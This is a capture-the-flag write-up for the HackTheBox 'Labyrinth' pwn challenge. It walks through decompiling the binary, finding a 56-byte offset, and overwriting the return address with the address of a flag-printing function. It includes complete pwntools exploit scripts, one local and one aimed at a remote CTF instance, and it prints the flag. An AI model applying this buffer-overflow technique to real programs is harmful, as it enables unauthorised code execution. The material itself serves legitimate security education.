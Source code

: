 ```yaml
---
title: "PWN - Labyrinth"
publishedAt: 2023-03-21
description: "HacktheBox CTF - Cyber Apocalypse"
isPublish: true
---
```


```
Labyrinth
You find yourself trapped in a mysterious labyrinth, with only one chance to escape.
Choose the correct door wisely, for the wrong choice could have deadly consequences.

Points: 300
Difficulty: Easy
```

In this challenge you are given a docker instance and also some files that you can download.
The archive consisted of 2 files (flag.txt, labyrinth) and a folder which had some linux shared objects for the binary to run.

Once you run the binary you are welcomed by an ascii art and a prompt asking you for a door number.

```
▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒
▒-▸        ▒           ▒          ▒
▒-▸        ▒     O     ▒          ▒
▒-▸        ▒    '|'    ▒          ▒
▒-▸        ▒    / \    ▒          ▒
▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▲△▲△▲△▲△▲△▒

Select door:

Door: 001 Door: 002 Door: 003 Door: 004 Door: 005 Door: 006 Door: 007 Door: 008 Door: 009 Door: 010
Door: 011 Door: 012 Door: 013 Door: 014 Door: 015 Door: 016 Door: 017 Door: 018 Door: 019 Door: 020
Door: 021 Door: 022 Door: 023 Door: 024 Door: 025 Door: 026 Door: 027 Door: 028 Door: 029 Door: 030
Door: 031 Door: 032 Door: 033 Door: 034 Door: 035 Door: 036 Door: 037 Door: 038 Door: 039 Door: 040
Door: 041 Door: 042 Door: 043 Door: 044 Door: 045 Door: 046 Door: 047 Door: 048 Door: 049 Door: 050
Door: 051 Door: 052 Door: 053 Door: 054 Door: 055 Door: 056 Door: 057 Door: 058 Door: 059 Door: 060
Door: 061 Door: 062 Door: 063 Door: 064 Door: 065 Door: 066 Door: 067 Door: 068 Door: 069 Door: 070
Door: 071 Door: 072 Door: 073 Door: 074 Door: 075 Door: 076 Door: 077 Door: 078 Door: 079 Door: 080
Door: 081 Door: 082 Door: 083 Door: 084 Door: 085 Door: 086 Door: 087 Door: 088 Door: 089 Door: 090
Door: 091 Door: 092 Door: 093 Door: 094 Door: 095 Door: 096 Door: 097 Door: 098 Door: 099 Door: 100

>>
```

So i throw the binary to my decompiler and found out that the correct door number is '69' or '069'.

![HTB](/images/htb/pwn/labyrinth/correct_door.png)

After entering the correct door number we are again left with a new prompt.

```
You are heading to open the door but you suddenly see something on the wall:

"Fly like a bird and be free!"

Would you like to change the door you chose?

>>
```

No matter what input you enter it does not work. Also looking at the decompiled source code there was no way to get the flag by entering 'some correct answer'.
This challenge requires a buffer overflow attack, so i created a new python script using pwntools. During my codewalk in the decompiled source i saw the function called 'escape_plan' which actually does open 'flag.txt' file and print out the flag. So i first needed the address of 'escape_plan' function, which i got via objdump.

![HTB](/images/htb/pwn/labyrinth/func_address.png)

With the address (0x401255) in hand i tried sending different sizes of payloads to detect the offset required for rip register so i could inject the address of 'escape_plan' there to execute and get the flag. So the offset was 56. Afte that, i tried with the script and i was able to get the ascii art showing me that i was able to escape the labyrinth but there was no flag ! After a while (couple of hrs) i realized my mistake here and changed the address with 0x401256 since 0x401255 was not multiple of 8-bytes (64 bit addresses !).
With the new fix in hand i was able to get the local flag.

```python
#!/usr/bin/python3.8
from pwn import *

def print_lines(io):
    while True:
        try:
            line = io.recvline()
            success(line.decode())
        except EOFError:
            break

binary_path = "labyrinth"
elf         = ELF(binary_path)
offset = 56
# new_rip = p64(elf.symbols["escape_plan"])     # 0x401255 was not multiple of 8 !!!
return_address = p64(elf.symbols["main"])

payload = b"".join(
    [
        b"A"  * offset,
        # new_rip,                              # get rid of this and use 0x401256
        b'\x56\x12\x40\x00\x00\x00\x00\x00',
        return_address
    ]
)

with open("payload", "wb") as filp:
    filp.write(payload)

io = process(elf.path)
io.recvregex(b'>>')
io.sendline(b'069')
io.recvregex(b'>>')
io.sendline(payload)
print_lines(io)
```

Now it was time to create a new script with pwntools to run the bof attack on remote docker instance.

```python
#!/usr/bin/python3.8
from pwn import *

def print_lines(io):
    info("printing io received lines")
    while True:
        try:
            line = io.recvline()
            success(line.decode())
        except EOFError:
            break

# Setup and open connection
IP   = '165.227.224.40' # Change this
PORT = 30575            # Change this
r    = remote(IP, PORT)

# Craft payload
offset = 56
padding = b"A" * offset
retaddr = p64(0x401256)
payload = b"".join([padding, retaddr])

# Wait for prompt
print(r.recvregex(b'>>').decode())

# Send first input
r.sendline(b'069')

# Wait for new prompt
print(r.recvregex(b'>>').decode())

# Send payload
r.sendline(payload)

# Get the flag !
print_lines(r)
```

![HTB](/images/htb/pwn/labyrinth/flag.png)

```
Flag: HTB{3sc4p3_fr0m_4b0v3}
```
